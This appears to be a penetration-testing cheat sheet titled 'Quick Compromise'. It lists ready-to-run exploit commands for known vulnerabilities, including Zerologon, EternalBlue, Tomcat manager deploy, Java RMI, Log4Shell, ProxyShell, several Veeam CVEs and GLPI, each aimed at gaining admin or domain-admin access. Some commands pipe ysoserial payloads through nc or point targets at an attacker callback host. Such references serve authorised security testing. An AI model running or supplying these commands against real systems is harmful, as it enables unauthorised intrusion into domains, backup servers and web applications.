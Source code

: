 # Quick Compromise

## ⚠️ Zerologon (unsafe) CVE-2020-1472 @CVE@ >>> Domain admin
- `zerologon-scan '<dc_netbios_name>' '<ip>'`
- `cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>`

## Eternal Blue MS17-010 @CVE@ >>> Admin || Low access
- `msf> exploit/windows/smb/ms17_010_eternalblue # SMBv1 only`

## Tomcat/Jboss Manager >>> Admin || Low access
- `msf> auxiliary/scanner/http/tomcat_enum`
- `msf> exploit/multi/http/tomcat_mgr_deploy`

## Java RMI >>> Admin || Low access
- `msf> use exploit/multi/misc/java_rmi_server`

## Java Serialiszed port >>> Admin || Low access
- `ysoserial.jar <gadget> '<cmd>' |nc <ip> <port>`

## Log4shell >>> Admin || Low access
- ${jndi:ldap://<ip>:<port>/o=reference}

## Database >>> Admin || Low access
- `msf> use auxiliary/admin/mssql/mssql_enum_sql_logins`

## Exchange >>> Admin
- Proxyshell @CVE@
  - `proxyshell_rce.py -u https://<exchange> -e administrator@<domain>`

## Veeam >>> User Account || Low access || Admin
- CVE-2023-27532 (creds - Veeam backup) @CVE@
  - `VeeamHax.exe --target <veeam_server>`
  - `CVE-2023-27532 net.tcp:/<target>:<port>/`
- CVE-2024-29849 (auth bypass - Veeam Backup Enterprise Manager) @CVE@
  - `CVE-2024-29849.py --target https://<veeam_ip>:<veeam_port>/ --callback-server <attacker_ip>:<port>`
- CVE-2024-29855 (auth bypass - Veeam Recovery Orchestrator) @CVE@
  - `CVE-2024-29855.py  --start_time <start_time_epoch> --end_time <end_time_epoch> --username <user>@<domain> --target https://<veeam_ip>:<veeam_port>/`
- CVE-2024-40711 (unserialize - Veeam backup) @CVE@
  - `CVE-2024-40711.exe -f binaryformatter -g Veeam -c http://<attacker_ip>:8000/trigger --targetveeam <veeam_ip>`

## GLPI >>> Admin || Low access
- CVE-2022-35914 @CVE@
  - /vendor/htmlawed/htmlawed/htmLawedTest.php
- CVE_2023_41320 @CVE@
  - `cve_2023_41320.py -u <user> -p <password> -t <ip>`

## Weak websites / services
- nuclei
  - `nuclei -target <ip_range>`
- nessus